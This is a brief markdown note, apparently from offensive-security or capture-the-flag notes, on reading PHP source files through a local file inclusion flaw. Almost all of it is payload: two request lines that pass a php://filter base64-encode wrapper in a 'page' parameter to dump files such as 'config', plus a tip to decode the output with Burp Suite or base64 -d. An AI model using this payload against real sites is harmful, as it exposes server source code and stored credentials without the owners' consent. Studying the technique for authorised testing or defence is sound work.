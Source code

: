# Web encode to read PHP files

## BurpSuit encode Trick

`GET /?page='php://filter/convert.base64-encode/resource'=<Page to read>`

`GET /?page=php://filter/convert.base64-encode/resource=config`

After this you can use decode from BurpSuit or `base64 -d` from Linux terminal.
